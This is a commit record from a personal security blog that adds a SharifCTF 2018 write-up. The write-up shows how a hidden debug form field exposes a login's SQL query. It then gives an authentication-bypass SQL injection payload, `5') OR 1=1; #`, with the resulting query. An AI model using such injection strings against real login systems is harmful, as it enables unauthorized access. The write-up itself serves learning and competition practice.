

Before and after one commit to W3ndige/rootnetsec.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the whole page at 93% size, without its empty margins (188-1090 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; the list of posts is cut into pages by our own code; after the commit the page ends 1489 px from its top, so only the background shows below that.

Commit message:
New SharifCTF write up and mistakes correction

```diff
--- /dev/null
+++ b/_posts/2018-02-04-sharifctf-hidden-input.md
@@ -0,0 +1,65 @@
+---
+layout:     post
+title:      "SharifCTF 2018 - hidden input"
+date:       2018-02-04 0:00:00
+author:     "W3ndige"
+permalink: /:title/
+category: 'Write-Ups'
+---
+Another challenge [SharifCTF](http://ctf.certcc.ir/ctf8/) called ***hidden input***.
+
+- Category: Forensics
+- Points: 50
+
+{% highlight text %}
+Login if you can :)
+{% endhighlight %}
+
+### Solution
+
+At first we are presented with a simple webpage containing 2 inputs - login and password.
+
+{% highlight html %}
+<!DOCTYPE html>
+<html>
+<head>
+	<title></title>
+	<link href='fonts.css' rel='stylesheet' type='text/css'>
+	<link rel="stylesheet" type="text/css" href="asset/style.css">
+</head>
+<body>
+	<div class="logo"><div class="lspan">SharifCTF</div></div>
+	<form method="POST" action="login.php">
+		<div class="login-block">
+			<h1>Login</h1>
+			<input type="text" value="" placeholder="Username" id="Username" name="Username"/>
+			<input type="password" value="" placeholder="Password" id="Password" name="Password"/>
+			<input type="hidden" name="debug" id="debug" value="0">
+			<button>Login</button>
+		</div>
+	</form>
+</body>
+</html>
+{% endhighlight %}
+
+But upon inspecting the source code, we can see a hidden input - called debug. After changing its value to `1` and logging in, in addition to the login failed message we can see whole SQL query.
+
+{% highlight sql %}
+username: admin
+password: asd
+SQL query: SELECT * FROM users WHERE username=('admin') AND password=('asd')
+{% endhighlight %}
+
+Let's construct a simple SQL injection in order to get into the webpage. Firstly, we have to add some value into the password variable, then add `'` character to close the previous quotation mark an finally SQL statement that will trick the query `OR 1=1;`. Last step is to comment out left characters from the original query.
+
+{% highlight sql %}
+username: admin
+password: 5') OR 1=1; #
+SQL query: SELECT * FROM users WHERE username=('admin') AND password=('5') OR 1=1; #')
+{% endhighlight %}
+
+### Tools
+No external tools used
+
+### References
+[https://www.owasp.org/index.php/SQL_Injection](https://www.owasp.org/index.php/SQL_Injection)
```
Also changed, not shown: _posts/2018-02-03-sharifctf-client01.md (+1 -1 lines), 13 other files.
